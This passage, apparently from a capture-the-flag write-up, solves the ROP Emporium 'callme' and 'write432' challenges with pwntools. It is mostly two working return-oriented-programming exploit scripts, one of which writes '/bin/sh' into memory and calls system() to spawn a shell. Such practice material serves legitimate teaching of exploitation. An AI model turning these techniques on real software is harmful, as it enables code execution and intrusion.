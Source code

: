 ```
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'

r = process('./callme')

trash = 'a'*40
one = 0x401850
two = 0x401870
three = 0x401810

pop_rdi_ret = 0x0000000000401b23
pop_rsi_rdx_ret = 0x0000000000401ab1 

pay = flat([pop_rdi_ret, 1, pop_rsi_rdx_ret, 2, 3, one])
pay+= flat([pop_rdi_ret, 1, pop_rsi_rdx_ret, 2, 3, two])
pay+= flat([pop_rdi_ret, 1, pop_rsi_rdx_ret, 2, 3, three])

r.sendline(trash + pay)

r.interactive()
```


## write432

這題跟 split 的差別在裡面沒有可用字串，需要自己塞



```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/p/write432')

mov_dedi_ebp = 0x08048670
pop_edi_ebp_ret = 0x080486da
bss = 0x804b000 - 0x100
system_plt = 0x8048430

trash = 'a'*44

payload = flat([pop_edi_ebp_ret, bss, '/bin', mov_dedi_ebp])
payload+= flat([pop_edi_ebp_ret, bss+4, '/sh\x00', mov_dedi_ebp])
payload+= flat([system_plt, bss, bss])

r.sendline(trash + payload)


r.interactive()
```
